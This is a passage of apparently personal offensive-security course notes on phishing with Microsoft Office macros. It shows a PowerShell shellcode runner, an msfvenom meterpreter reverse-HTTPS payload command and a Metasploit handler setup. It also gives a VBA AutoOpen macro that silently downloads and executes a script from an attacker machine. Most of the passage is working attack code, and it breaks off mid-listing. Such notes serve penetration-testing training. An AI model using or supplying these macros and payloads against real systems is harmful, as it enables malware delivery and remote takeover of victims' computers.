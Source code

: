         # Add the dealy to slove the previous problem
        # 0xFFFFFFFF wait forever, or when we kill the shell
        [Kernel32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
        ```
        - C data types can be mapped to C# data types using P/Invoke (Platform Invocation Services). You can find relevant mappings and examples at [**www.pinvoke.net**](https://www.pinvoke.net/), such as the implementation of [**VirtualAlloc**](https://www.pinvoke.net/default.aspx/kernel32.VirtualAlloc).

3. Use Metasploit (`sudo msfconsole -q`) and set up a `multi-handler` with the same payload used in msfvenom.
    ```bash
    use multi/handler
    set payload windows/meterpreter/reverse_https
    set LHOST tun0
    set LPORT 443
    options
    exploit
    ```

**1.2.1.4 Phishing With MS Office - PowerShell Shellcode Runner (Method 2 - In-Memory Powershell using Reflevtive Load)**
> `Remeber`: Add `x64` to the msfvenom payload (and Metasploit) if you want to test on an x64 architecture. The method below works prior to Method 1 with Office 32-bit !
{: .prompt-info }

1. Create the payload using `msfvenom` and copy it to the script `run.ps1` below:
    ```bash
    sudo msfvenom -p windows/meterpreter/reverse_https LHOST=tun0 LPORT=443 EXITFUNC=thread -f ps1
    ```
2. Host the script on the attack machine as `run.ps1` and use `DownloadString` in the VBA script to execute it on the victim machine.
    - **VBA Code** - This will help download and execute the PowerShell script using VBA.
        ```vb
        Sub Document_Open()
            MyMacro
        End Sub

        Sub AutoOpen()
            MyMacro
        End Sub

        Sub MyMacro()
            Dim str As String
            str = "powershell (New-Object System.Net.WebClient).DownloadString('https://192.168.x.x/run.ps1') | IEX"
            Shell str, vbHide
        End Sub
        ```
    - **run.ps1** - hosted on the attacker machine
        ```ps
        function LookupFunc {
